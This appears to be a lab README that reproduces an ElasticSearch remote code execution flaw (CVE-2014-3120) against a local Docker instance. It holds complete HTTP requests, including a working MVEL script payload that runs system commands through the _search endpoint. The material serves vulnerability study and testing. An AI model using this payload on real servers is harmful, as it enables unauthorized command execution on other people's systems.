

# ElasticSearch Remote Code Execution (CVE-2014-3120)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

The default configuration in Elasticsearch before 1.2 enables dynamic scripting, which allows remote attackers to execute arbitrary MVEL expressions and Java code via the source parameter to `_search`.

Here's an example of MVEL code that executes system commands:

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

References:

- <https://bou.ke/blog/elasticsearch-rce/>
- <https://www.exploit-db.com/exploits/33370>

## Vulnerability Reproduction

Execute the following commands to start a vulnerable ElasticSearch server 1.1.1:

```
docker compose up -d
```

After the server starts, you can access the ElasticSearch API at `http://your-ip:9200`.

## Exploitation

The exploit requires at least one document in the index. First, create a document:

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "vulhub"
}
```

Then, send a request containing the malicious MVEL script to execute arbitrary commands:

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

The command execution result will be returned in the response:


